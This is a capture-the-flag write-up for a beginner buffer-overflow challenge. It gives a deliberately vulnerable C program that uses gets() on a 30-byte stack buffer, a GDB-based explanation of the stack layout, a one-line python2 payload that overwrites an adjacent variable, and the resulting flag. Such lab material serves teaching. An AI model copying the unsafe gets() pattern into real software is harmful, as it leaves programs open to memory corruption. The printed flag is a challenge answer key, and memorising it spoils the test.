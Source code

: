 # pwn intended 0x1

Author: [roerohan](https://github.com/roerohan)

## Description

Buffer overflow to overwrite a variable in the same function.

## Requirements

- Basic Knowledge of Buffer Overflow
- Docker: [Dockerfile](./Dockerfile)

## Sources

- [pwn-intended-0x1](./bin/pwn-intended-0x1): Binary
- [pwn-intended-0x1.c](./bin/pwn-intended-0x1.c)

```c
#include <stdio.h>

int main()
{
    int floor = 0;
    char coffee[30];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    puts("Please pour me some coffee:");
    gets(coffee);

    puts("\nThanks!\n");

    if (floor != 0)
    {
        puts("Oh no, you spilled some coffee on the floor! Use the flag to clean it.");
        system("cat flag.txt");
    }
}
```

```
I really want to have some coffee!
```

## Exploit

The program has an integer variable `floor`, the value of which needs to be changed. The `floor` variable is of `int` type, of size `4 bytes`. The `coffee` array is of character type, each character is `1 byte`, hence the array takes `30 bytes`. So the main function will be alloted `48 bytes` of memory, since that is the nearest multiple of 16 after `30 + 4`.
<br />

The 4 bytes of the function's stack adjacent to the `saved rbp` is going to store `floor`. We can confirm that using GDB. In `main <+56>`, there is a comparison between `[rbp-0x4]` and `0x0`.
<br />

<img src="./static/img1.png" width="600" />

Now, we can simply fill up the entire stack with some random bytes (`!= 0`), so that the value of the `floor` variable is changed, leading to a call to the `system()` function.

```bash
$ python2 -c "print 'a'*48" | ./pwn-intended-0x1 
Please pour me some coffee:

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.
csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}%
```

The flag is:

```
csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}
```